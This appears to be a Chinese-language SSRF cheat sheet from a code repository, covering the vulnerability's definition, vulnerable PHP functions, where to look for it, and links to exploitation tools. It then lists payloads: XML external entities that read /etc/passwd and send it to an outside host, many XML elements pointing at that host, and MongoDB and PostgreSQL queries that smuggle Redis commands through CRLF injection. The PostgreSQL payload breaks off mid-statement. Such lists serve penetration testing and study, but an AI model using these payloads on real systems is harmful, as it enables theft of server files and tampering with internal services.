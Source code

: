  #### 定义
	服务端请求伪造
	构造一个由服务器发出请求的漏洞
	服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制
 #### 成因
	file_get_contents()、fsockopen()、curl_exec()、fopen()、readfile()等函数使用不当会造成SSRF漏洞
 #### 挖掘
	转码服务
	在线翻译
	获取超链接的标题等内容进行显示
	请求远程服务器资源的地方，图片加载与下载(通过URL地址加载或下载图片)
	图片、文章收藏功能
	对外发起网络请求的地方，网站采集、网页抓取的地方。
	头像 (远程加载头像)
	一切要你输入网址的地方和可以输入ip的地方。
	数据库内置功能(mongodb的copyDatabase函数)
	邮件系统
	文件处理
	在线处理工具
	从URL关键字中寻找：share、wap、url、link、src、source、target、u、3g、display、sourceURl、imageURL、domain
 #### 利用工具
  	https://github.com/swisskyrepo/SSRFmap
	https://github.com/tarunkant/Gopherus
	https://github.com/In3tinct/See-SURF
	https://github.com/teknogeek/ssrf-sheriff
 #### XML
	<!ENTITY % d SYSTEM "http://wuyun.org/evil.dtd">
	<!ENTITY % file system "file:///etc/passwd" >
	<!ENTITY % d SYSTEM "http://wuyun.org/file?data=%file">
	<!DOCTYPE roottag PUBLIC "-//VSR//PENTEST//EN" "http://wuyun.org/urlin">
	<xenc:AgreementMethod Algorithm= "http://wuyun.org/1">
	<xenc:EncryptionProperty Target= "http://wuyun.org/2">
	<xenc:CipherReference URI= "http://wuyun.org/3">
	<xenc:DataReference URI= "http://wuyun.org/4">
	<Reference URI="http://wuyun.org/5">
	<To xmlns="http://www.w3.org/2005/08/addressing">http://wuyun.org/to</To>
	<ReplyTo xmlns="http://www.w3.org/2005/08/addressing">
	<Address>http://wuyun.org/rto</Address>
	<input message="wooyun" wsa:Action="http://wuyun.org/ip" />
	<output message="wooyun" wsa:Action="http://wuyun.org/op" />
	<wsp:PolicyReference URI=“http://wuyun.org/pr">
	<fed:Federation FederationID="http://wuyun.org/fid">
	<fed:FederationInclude>http://wuyun.org/inc</fed:FederationInclude>
	<fed:TokenIssuerName>http://wuyun.org/iss</fed:TokenIssuerName>
	<mex:MetadataReference>
	<wsa:Address>http://wuyun.org/mex</wsa:Address>
	</mex:MetadataReference>
	<edmx:Reference URI="http://wuyun.org/edmxr">
	<edmx:AnnotationsReference URI="http://wuyun.org/edmxa">
	<xbrli:identifier scheme="http://wuyun.org/xbr">
	<link:roleType roleURI="http://wuyun.org/role">
	<stratml:Source>http://wuyun.org/stml</stratml:Source>
 #### 数据库
 ##### MongoDB
	db.copyDatabase('\r\nconfig set dbfilename ssrf\r\nquit\r\n’,'test','10.6.4.166:6379')
 ##### PostgresSQL
	SELECT dblink_send_query(
	 'host=127.0.0.1 
	dbname=quit 
	user=\'\r\nconfig set dbfilename wyssrf\r\n\quit\r\n' 
	password=1 port=6379 sslmode=disable', 